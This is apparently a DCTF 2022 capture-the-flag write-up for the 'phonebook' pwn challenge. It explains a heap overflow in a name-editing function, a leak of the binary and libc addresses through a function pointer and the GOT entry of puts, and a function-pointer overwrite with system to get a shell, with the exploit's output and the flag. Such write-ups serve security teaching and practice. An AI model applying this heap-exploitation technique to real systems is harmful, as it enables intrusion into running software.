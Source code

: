 +++
title = "[DCTF 2022 - pwn] phonebook"
tags = ["ctf", "ret2school", "DCTF", "nasm", "pwn", "2022"]
date = "2022-04-17"
+++

## Intro

phonebook is a basic heap challenge I did during the dctf event. It's basically just a heap overflow wich allows us to overflow a function pointer with for example the address of system.

## The bug

```
$ ./phonebook
Choose an option: [1-5]
1. Store someone's information
2. Edit information
3. Call someone
4. Unfriend someone
5. Add the hidden_note
> 
```

We can create an entity and then initialize: a name, a numero and a function pointer.
```c
int __fastcall create(unsigned int a1)
{
  int result; // eax
  struct entity *s; // [rsp+18h] [rbp-8h]

  if ( people[a1] )
    return printf("Person with id %d already exists!", a1);
  s = malloc(0x20uLL);
  s->name = get_name();
  LODWORD(s->name_size) = strlen(s->name);
  printf("Phone number: ");
  fgets(s, 8, _bss_start); // phone number
  s->func = choose_relation();
  result = s;
  people[a1] = s;
  return result;
}
```
The bug lies `edit_name` function:

```c
unsigned __int64 __fastcall edit_name(int a1)
{
  int n; // [rsp+18h] [rbp-18h] BYREF
  int name_size; // [rsp+1Ch] [rbp-14h]
  struct entity *v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  v4 = people[a1];
  name_size = v4->name_size;
  printf("Name length: ");
  __isoc99_scanf("%d", &n);
  fgets(v4->name, 2, _bss_start);
  if ( name_size != n )
  {
    free(v4->name);
    v4->name = malloc(n + 1);
  }
  printf("Name: ");
  fgets(v4->name, n, _bss_start);
  v4->name[n] = 0;
  return __readfsqword(0x28u) ^ v5;
}
```

We can give it a new lentgh and if that's not equal to the current size field it frees the current name pointer and allocates a new name pointer **without** updating the size field. Which means if we edit the name pointer with a smaller size, the name pointer will be smaller compared to the size field, then we just have to edit again the size field to make it equal to `v4->name_size` to trigger a heap overflow through the `v4->name` pointer.

## Leak libc

Now we're able to overflow through the name pointer we have to find how the leak the libc, a nice way would be to leak it by using free'd chunks in the unsortedbin. Or we can leak the `entity->func` function pointer which would give us a leak of the binary base address, then we would have to edit the name pointer with the got entry of `puts` to leak its address within the libc.

To do so we can create another entity right after the name pointer:
```
0x559b0d4d16b0	0x0000000000000000	0x0000000000000031	........1.......
0x559b0d4d16c0	0x3131313131313131	0x0000559b0c84f2a1	11111111.....U..
0x559b0d4d16d0	0x0000559b0d4d1800	0x00000000000000fe	..M..U..........
0x559b0d4d16e0	0x0000000000000000	0x0000000000000111	................
0x559b0d4d16f0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1700	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1710	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1720	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1730	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1740	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1750	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1760	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1770	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1780	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1790	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17a0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17b0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17c0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17d0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17e0	0x4141414141414141	0x0000414141414141	AAAAAAAAAAAAAA..
0x559b0d4d17f0	0x0000000000000000	0x0000000000000031	........1.......
0x559b0d4d1800	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x559b0d4d1810	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x559b0d4d1820	0x0000000000000000	0x0000000000000031	........1.......
0x559b0d4d1830	0x3131313131313131	0x0000559b0c84f2a1	11111111.....U..
0x559b0d4d1840	0x0000559b0c851fa0	0x000000000000000a	.....U..........
0x559b0d4d1850	0x0000000000000000	0x000000000001f7b1	................	 <-- Top chunk
```

The ```edit_phone_number``` overwrites the null byte:
```c
__int64 __fastcall edit_phone_number(int a1)
{
  printf("Enter new phone number: ");
  return __isoc99_scanf("%8s", people[a1]);
}
```

To summarise:
- leak binary base address by overwriting the null byte (`edit_phone_number`) and then print the phone numer.
- leak libc base address by overwriting the name field of the second entity with the got entry of `puts`

## PROFIT

Then we just have to overwrite the function pointer with the address of `system` which takes as first argument a pointer to the entity structure of edit the phone number of the entity we wanna use because that's the first field of the structure which means we make it equivalent to a `system("/bin/sh")`.
```
00000000 entity          struc ; (sizeof=0x20, mappedto_8)
00000000 num             dq ?
00000008 func            dq ?
00000010 name            dq ?                    ; offset
00000018 name_size       dq ?
00000020 entity          ends
```

Then here we are:
```
$ python3 exploit.py REMOTE HOST=51.124.222.205 PORT=13380
[*] '/home/nasm/Documents/phonebook/chall/phonebook_patched_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Opening connection to 51.124.222.205 on port 13380: Done
[*] binary: 0x558980fdd000
[*] libc @ 0x7fabfec57000
[*] system @ 0x7fabfeca92c0
[*] Switching to interactive mode
$ id
uid=1337 gid=1337 groups=1337
$ cat flag.txt
DCTF{C4n_1_g3t_y0ur_numb3r?}
```
